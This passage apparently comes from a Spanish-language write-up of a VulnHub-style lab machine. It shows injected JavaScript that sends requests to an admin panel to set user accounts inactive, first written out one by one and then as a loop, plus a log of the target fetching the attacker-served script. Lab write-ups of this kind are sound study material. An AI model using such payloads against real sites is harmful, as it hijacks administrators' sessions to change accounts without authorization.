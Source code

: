 ```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.100.38/admin/admin.php?id=5&status=inactive');
request.send();

var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.100.38/admin/admin.php?id=4&status=inactive');
request.send();

var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.100.38/admin/admin.php?id=3&status=inactive');
request.send();

var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.100.38/admin/admin.php?id=2&status=inactive');
request.send();

var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.100.38/admin/admin.php?id=1&status=inactive');
request.send();
```

O igual para que sea mas corto el codigo podrias hacer un bucle 

```javascript
for (var i = 14; i >= 1; i--) {
  var request = new XMLHttpRequest();
  request.open('GET', 'http://192.168.100.38/admin/admin.php?id=' + i + '&status=inactive');
  request.send();
}

```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.100.38 - - [28/Mar/2023 21:12:21] "GET /zi.js HTTP/1.1" 200 -


```

![](/assets/images/vh-writeup-myexpen/Final2.png)
